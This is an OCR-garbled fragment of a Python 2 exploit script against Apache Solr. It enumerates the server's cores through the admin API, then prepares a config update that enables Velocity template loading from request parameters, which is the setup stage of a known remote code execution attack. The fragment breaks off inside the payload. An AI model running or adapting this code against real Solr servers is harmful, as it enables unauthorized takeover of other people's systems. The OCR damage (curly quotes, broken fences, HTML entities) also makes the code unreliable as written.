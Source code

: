 ```

else:

url = url.split(’\n’)[0]

```
core_url = url + '/solr/admin/cores?indexInfo=false&amp;wt=json'
print '[+] Querying Core Name: '+core_url,'\n'
proxies = {"http":"http://127.0.0.1:8080"}
try:
    # r = requests.get(core_url,proxies=proxies)
    r = requests.get(core_url)
    if r.status_code == 200 and 'responseHeader' in r.content and 'status' in r.content:
        json_str = json.loads(r.content)
        for i in json_str['status']:
            core_name_url = url + '/solr/' + i + '/config'
            print core_name_url
            update_queryresponsewriter(core_name_url)
    else:
        print "No core name exit!"
except:
    pass 
```

def update_queryresponsewriter(core_name_url):

headers = {

‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0’,

‘Accept’: ‘text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8’,

‘Accept-Language’: ‘zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3’,

‘Accept-Encoding’: ‘gzip, deflate’,

‘Content-Type’: ‘application/json’,

‘Content-Length’: ‘259’,

‘Connection’: ‘close’

}

payload = ‘’’

{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

```
